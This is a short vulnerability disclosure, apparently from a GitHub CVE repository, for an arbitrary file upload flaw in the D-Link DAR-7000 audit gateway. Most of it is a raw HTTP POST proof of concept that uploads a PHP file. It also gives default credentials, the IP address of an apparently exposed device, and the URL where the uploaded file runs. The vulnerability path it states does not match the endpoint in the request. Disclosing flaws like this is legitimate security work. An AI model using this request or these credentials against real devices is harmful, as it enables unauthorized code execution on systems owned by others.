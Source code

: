 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/sysmanage/updateos.php

Ip：https://60.22.74.195:8443/

Default account password: test/ admin@123

poc:
```
POST /sysmanage/changelogo.php HTTP/1.1
Host: 
Cookie: PHPSESSID=bdb1aa1392da0420192cff3c34e507d6
Accept: image/gif, image/jpeg, image/pjpeg, application/x-ms-application, application/xaml+xml, application/x-ms-xbap, */*
Accept-Language: zh-CN
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)
Content-Type: multipart/form-data; boundary=---------------------------7e62f02f51878
Accept-Encoding: gzip, deflate
Content-Length: 326
Cache-Control: no-cache
Connection: close

-----------------------------7e62f02f51878
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------7e62f02f51878
Content-Disposition: form-data; name="mode"

upload
-----------------------------7e62f02f51878--

```
<img width="729" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/75fd474e-b079-489b-8cb7-750e67d4d2e9">

https://60.22.74.195:8443/boot/web/upload/diylogo/phpinfo.php

<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/7b4026d7-13b5-4ec9-99b0-a4ef450214d0">



